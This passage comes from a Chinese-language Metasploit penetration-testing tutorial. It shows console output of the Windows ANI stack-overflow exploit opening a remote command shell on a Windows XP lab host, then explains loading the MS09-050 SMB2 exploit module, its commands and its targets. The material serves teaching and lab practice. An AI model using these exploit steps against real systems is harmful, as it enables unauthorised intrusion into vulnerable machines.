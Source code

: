 ```shell
[*]  Local IP: http://192.168.1.5:8080/
[*] Server started.
msf exploit(ani_loadimage_chunksize) >
[*] Attempting to exploit ani_loadimage_chunksize
[*] Sending HTML page to 192.168.1.100:1077...
[*] Attempting to exploit ani_loadimage_chunksize
[*] Sending Windows ANI LoadAniIcon() Chunk Size Stack Overflow (HTTP) to 192.168.1.100:1077...
[*] Sending stage (240 bytes)
[*] Command shell session 2 opened (192.168.1.5:4444 -> 192.168.1.100:1078)

msf exploit(ani_loadimage_chunksize) > sessions -i 2
[*] Starting interaction with 2...

Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\victim\Desktop>
```

#### 2.3.3 渗透测试过程

使用渗透模块一般有以下几个步骤：

##### 加载某个渗透模块.

例如：
```
msf > use  exploit/windows/smb/ms09_050_smb2_negotiate_func_index
msf exploit(ms09_050_smb2_negotiate_func_index) > help
...snip...
Exploit Commands
================

    Command       Description
    -------       -----------
    check         Check to see if a target is vulnerable
    exploit       Launch an exploit attempt
    pry           Open a Pry session on the current module
    rcheck        Reloads the module and checks if the target is vulnerable
    reload        Just reloads the module
    rerun         Alias for rexploit
    rexploit      Reloads the module and launches an exploit attempt
    run           Alias for exploit

msf exploit(ms09_050_smb2_negotiate_func_index) >
show
Using an exploit also adds more options to the show command.

MSF Exploit Targets
msf exploit(ms09_050_smb2_negotiate_func_index) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Windows Vista SP1/SP2 and Server 2008 (x86)
```
